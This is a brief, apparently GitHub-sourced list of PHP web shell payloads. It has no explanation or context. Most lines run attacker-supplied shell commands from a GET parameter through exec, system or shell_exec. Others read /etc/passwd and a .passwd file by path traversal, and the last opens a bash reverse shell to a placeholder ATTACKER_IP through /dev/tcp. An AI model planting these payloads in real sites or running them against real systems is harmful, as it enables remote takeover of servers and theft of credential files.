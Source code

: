 ##PHP_Payloads

    <?php exec($_GET['cmd']); ?>
    <?php system($_GET['cmd']); ?>
    <?php echo exec($_GET['cmd']); ?>
    <?php shell_exec($_GET['cmd']); ?>
    <?php system($_GET['command']); ?>
    <?php echo system($_GET['cmd']); ?>
    <?php shell_exec($_GET['command']); ?>
    <?php echo system($_GET['command']); ?>
    <?php echo shell_exec($_GET['cmd']); ?>
    <?php echo shell_exec($_GET['command']); ?>
    <?php echo readfile('../../etc/passwd'); ?>
    <?php echo file_get_contents('../../etc/passwd'); ?>
    <?php $output = shell_exec('cat ../../../.passwd'); echo "$output";  ?>
    <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1'"); ?>
